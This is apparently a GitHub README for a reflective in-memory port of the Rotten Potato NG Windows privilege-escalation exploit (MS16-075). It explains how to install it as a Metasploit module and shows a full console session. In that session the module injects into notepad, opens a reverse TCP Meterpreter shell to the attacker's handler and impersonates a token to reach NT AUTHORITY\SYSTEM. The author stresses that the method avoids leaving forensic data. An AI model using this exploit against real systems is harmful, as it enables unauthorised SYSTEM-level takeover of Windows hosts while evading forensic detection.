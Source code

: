 # About

A small project to port Rotten Potato NG for Reflection to avoid touching the disk and keep the entire attack in memory. Solves the problem of permissions issue and removes the need to leave forensic data. I prefer reflection of all things, which is why I chose to do this. Its a wonderful exploit to elevate from a service if you have the right privileges that is. And lukily, its unpatched :)

## Setup
As of late, the exploit will only work with the Metasploit framework due to an annoying issue with the thread not running as SYSTEM. Will be patched this week .

**Metasploit**

Grab the [Metasploit](ms16_075_reflection.rb) module, place it within the `~/.msf4/modules/exploits/windows/local/ms16_075_relection.rb`, and drop both the x86 & x64 DLL's within the same directory. 

Once you've achieved a shell of some sort, and the user you are running / impersonate as has the SeImpersonate privilege, run the module with your chosen payload. 

```
msf exploit(windows/local/ms16_075_reflection) > run

[*] Started reverse TCP handler on -snip-:31334
[*] Launching notepad to host the exploit...
[+] Process 3448 launched.
[*] Reflectively injecting the exploit DLL into 3448...
[*] Injecting exploit into 3448...
[*] Exploit injected. Injecting payload into 3448...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 16 opened (-snip-:31334 -> -snip-:52436) at 2018-07-24 09:52:58 -0400

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token 'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
